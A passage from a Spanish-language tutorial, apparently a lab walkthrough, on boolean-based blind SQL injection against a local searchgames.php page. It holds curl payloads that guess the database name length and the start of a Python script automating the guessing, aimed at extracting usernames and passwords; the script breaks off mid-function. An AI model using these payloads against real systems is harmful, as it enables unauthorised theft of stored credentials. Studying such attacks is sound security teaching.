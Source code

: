 Ahora vamos a adivinar la información de la base de datos, pero para no estar repetiendo lo mismo que anteriormente, nos saltaremos la parte del descubrimiento de las bases de datos, las tablas y las columnas (ya que el concepto es exactamente el mismo), para ir directamente a los datos de las columnas `username` y `password`.

Pero lo normal es que no se sepa la longitud de los datos a recolectar, es por ello que para un trabajo más óptimo utilizaremos la función `LENGTH()` para adivinar la longitud.

La logica seria la misma que con la función `SUBSTR()`, pero en este caso, ir adivinando la longitud exacta.

```bash
❯ curl -s -X GET "http://192.168.6.5/searchgames.php" -G --data-urlencode "id=9'or length(database())='1'-- -"; echo

❯ curl -s -X GET "http://192.168.6.5/searchgames.php" -G --data-urlencode "id=9'or length(database())='2'-- -"; echo

❯ curl -s -X GET "http://192.168.6.5/searchgames.php" -G --data-urlencode "id=9'or length(database())='3'-- -"; echo

❯ curl -s -X GET "http://192.168.6.5/searchgames.php" -G --data-urlencode "id=9'or length(database())='4'-- -"; echo

❯ curl -s -X GET "http://192.168.6.5/searchgames.php" -G --data-urlencode "id=9'or length(database())='5'-- -"; echo

❯ curl -s -X GET "http://192.168.6.5/searchgames.php" -G --data-urlencode "id=9'or length(database())='6'-- -"; echo

❯ curl -s -X GET "http://192.168.6.5/searchgames.php" -G --data-urlencode "id=9'or length(database())='7'-- -"; echo
Producto encontrado
```

Por lo que el script quedaria de la siguiente forma: 

```python
#!/usr/bin/python3
import requests
from pwn import log
import time

# Global variables
main_url = "http://192.168.6.5/searchgames.php"

minus = "abcdefghijklmnopqrstuvwxyz"
mayus = "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
symbols = "!\"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~"
numbers = "0123456789"

characters = minus + mayus + symbols + numbers

def make_SQLi():
  string = ""

  length = 1

  # Adivinamos la longitud de los datos a recolectar
  while True:
    sqli = main_url + "?id=9'OR length(database())='%d'-- -" % (length)

    r = requests.get(sqli)

    if "Producto encontrado" in r.text:
      break
```